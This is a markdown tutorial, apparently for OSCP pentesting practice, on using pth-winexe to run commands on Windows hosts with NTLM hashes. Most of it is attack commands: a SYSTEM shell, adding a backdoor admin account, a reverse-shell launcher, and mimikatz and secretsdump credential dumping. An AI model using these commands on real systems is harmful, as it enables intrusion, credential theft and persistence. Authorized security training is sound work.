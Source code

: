 # pth-winexe - Pass-the-Hash Windows Command Execution

pth-winexe is a powerful utility that allows executing commands on Windows systems remotely from a Linux machine, using password hashes instead of cleartext passwords. This tool is part of the "passing-the-hash" toolkit and is based on the original winexe tool.

## Installation

pth-winexe is pre-installed on Kali Linux as part of the pth-toolkit:

```bash
# Verify installation
which pth-winexe

# If not installed, install the toolkit
sudo apt update
sudo apt install pth-toolkit
```

## Basic Usage

```bash
# Basic syntax
pth-winexe -U '[domain/]username%LM:NTLM' //target_ip command

# Example - Run cmd.exe as the administrator user
pth-winexe -U 'administrator%aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da' //10.10.10.10 cmd.exe
```

## Key Options

| Option | Description |
|--------|-------------|
| `-U` | Specify the username and password hash in the format 'username%LM:NTLM' |
| `--system` | Run the command with SYSTEM privileges |
| `--uninstall` | Uninstall the winexe service after execution |
| `--no-pass` | Don't ask for a password |
| `--debuglevel=LEVEL` | Set debug level (default: 0) |

## Examples for Penetration Testing

### 1. Get a SYSTEM Shell

```bash
# Execute cmd.exe with SYSTEM privileges
pth-winexe -U 'administrator%aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da' --system //10.10.10.10 cmd.exe
```

### 2. Execute a Specific Command

```bash
# Run whoami and exit
pth-winexe -U 'administrator%aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da' //10.10.10.10 'cmd.exe /c whoami'
```

### 3. Add a New Administrator User

```bash
# Create a new admin user
pth-winexe -U 'administrator%aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da' //10.10.10.10 'cmd.exe /c net user hacker Password123! /add && net localgroup administrators hacker /add'
```

### 4. Setup a Reverse Shell

```bash
# Transfer and execute a reverse shell
pth-winexe -U 'administrator%aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da' //10.10.10.10 'cmd.exe /c powershell -e <base64-encoded-reverse-shell>'
```

## LM and NTLM Hash Format

When using pth-winexe, you need to provide the password hash in the correct format:

- **LM hash**: First part of the hash (aad3b435b51404eeaad3b435b51404ee is the empty LM hash in modern Windows)
- **NTLM hash**: Second part, which is the actual NTLM hash of the password

The full format used with pth-winexe is:

```
username%LM:NTLM
```

If you only have the NTLM hash, you can use the empty LM hash (aad3b435b51404eeaad3b435b51404ee).

## Obtaining Hashes for Pass-the-Hash

You can obtain NTLM hashes using various methods:

```bash
# Using mimikatz locally
privilege::debug
sekurlsa::logonpasswords

# Using Impacket's secretsdump remotely
impacket-secretsdump -u Administrator -p 'Password123!' -target-ip 10.10.10.10

# From dumped SAM and SYSTEM files
impacket-secretsdump -sam sam.save -system system.save LOCAL
```

## Advantages for OSCP

- Allows authentication without cracking passwords, saving significant time
- Works with complex passwords that might be difficult or impossible to crack
- Enables lateral movement without needing the cleartext password
- Can be used to target multiple systems where the same password hash is valid
- No need to execute hash-cracking tools like hashcat or John the Ripper

## Limitations

- Requires valid NTLM hashes
- May be blocked by some security controls like Credential Guard
- Creates event logs on the target system
- Requires SMB port (445) to be accessible
- The NTLM authentication protocol must be enabled on the target

## Alternatives

- **Impacket's psexec.py**: `impacket-psexec -hashes LM:NTLM administrator@10.10.10.10`
- **Impacket's wmiexec.py**: `impacket-wmiexec -hashes LM:NTLM administrator@10.10.10.10`
- **Impacket's smbexec.py**: `impacket-smbexec -hashes LM:NTLM administrator@10.10.10.10`
- **CrackMapExec**: `crackmapexec smb 10.10.10.10 -u administrator -H 'NTLM_HASH' -x "whoami"`

## OSCP Exam Tips

For the OSCP exam:

1. **Prepare pth-winexe commands in advance** to save time during the exam
2. **Document the hashes you find** and how you obtained them
3. **Always try Pass-the-Hash before attempting to crack passwords**
4. **Use the `--system` flag** when you need maximum privileges
5. **Be aware of the logs created** on the target system

## Real-World Example

During a penetration test, after obtaining the NTLM hash for the administrator user from a domain controller:

```bash
# Hash extraction result
Administrator:500:aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da:::

# Using pth-winexe to get a shell on another machine in the domain
pth-winexe -U 'administrator%aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da' //10.10.10.20 cmd.exe

# Once connected, verify success
C:\> whoami
administrator

C:\> hostname
TARGETMACHINE
```

This demonstrates the power of Pass-the-Hash for lateral movement without needing to crack the administrator password. 
